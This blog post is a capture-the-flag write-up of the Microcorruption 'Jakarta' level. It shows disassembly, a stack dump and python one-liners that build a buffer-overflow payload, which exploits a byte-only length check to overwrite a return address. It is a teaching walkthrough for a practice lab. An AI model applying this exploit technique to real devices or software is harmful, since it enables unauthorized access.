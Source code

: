 ```yaml
---
layout: post
title: "Microcorruption CTF - Part II"
date: 2014-04-21 22:51:26 +0300
comments: true
categories: 
---
```


Introduction
------------
This is the second post about the [microcorruption CTF](https://microcorruption.com). For the previous post click [here](http://idosch.org/blog/2014/04/18/microcorruption-ctf-part-i/).

Level 10: Jakarta
-----------------
"Zero bottles of beer on the wall, zero bottles of beer; take one down, pass it around, 65535 bottles of beer on the wall."

This quote says it all, but I'll explain anyway. Here the HSM 1 is back so we already know what we need to do: make the notorious `login` return to `unlock_door`. However, as always, there is a catch. Both a user name and a password should be entered and their combined length needs to be no more than 31 bytes, which is of course less than the number of bytes needed to overwrite the return address. Below are snippets from `login` with my remarks.

At this stage you already entered your user name and its length is stored in `r11`. The following code subtracts your user name's length from `0x1f` (31), stores the result in `r14` and use it to read that much bytes from the user as its password using `getsn`.
```
45c8:  3e40 1f00      mov   #0x1f, r14
45cc:  0e8b           sub   r11, r14
45ce:  3ef0 ff01      and   #0x1ff, r14
45d2:  3f40 0224      mov   #0x2402, r15
45d6:  b012 b846      call  #0x46b8 <getsn>
```

After entering a password its length will be stored in `r15` with the user name length still in `r11`. Therefore, what the following code does is making sure the combined length is no more than 33 bytes, thereby, supposedly preventing us from overwriting the return address. Looking closer you may notice that the above statement is not accurate, as this is a `cmp.b` instruction that only checks the lower byte of the word and not all of it.
```
45fe:  0f5b           add   r11, r15
4600:  7f90 2100      cmp.b #0x21, r15
4604:  0628           jnc   #0x4612 <login+0xb2>
```

Knowing all this and keeping in mind the quote from the beginning, the rest should be pretty clear. We begin by entering a user name`0x20` bytes long, as this will cause `r14` to become `0xffff` (-1) in `0x45cc`, thereby allowing us to enter a password of up to `0x1ff` bytes.

```
$ python2 -c "print '41'*32" | xclip -i
```
Assuming the above user name was entered, the stack should look like this before a password is entered:

```
3fe0:   0000 0000 7846 0300 ec46 0000 0a00 2000   ....xF...F.... .
3ff0:   c845 4141 4141 4141 4141 4141 4141 4141   .EAAAAAAAAAAAAAA
4000:   4141 4141 4141 4141 4141 4141 4141 4141   AAAAAAAAAAAAAAAA
4010:   4141 0000 0000 4044 0000 0000 0000 0000   AA....@D........
```

with the return address (`0x4440`) at `0x4016`. Keeping in mind that we already entered `0x20` bytes and that the lower byte of the combined length needs to be less than `0x22`, we need a password of length `0xe0` as the combined length will be `0xe0+0x20=0x100`. Thus, the following password is used:
```
$ python2 -c "print '41'*4 + '4c44' + '41'*218" | xclip -i
```

Where the first four bytes simply fill the space between the end of the user name and the start of the return address and the next two bytes are the address of `unlock_door` (`0x444c`).
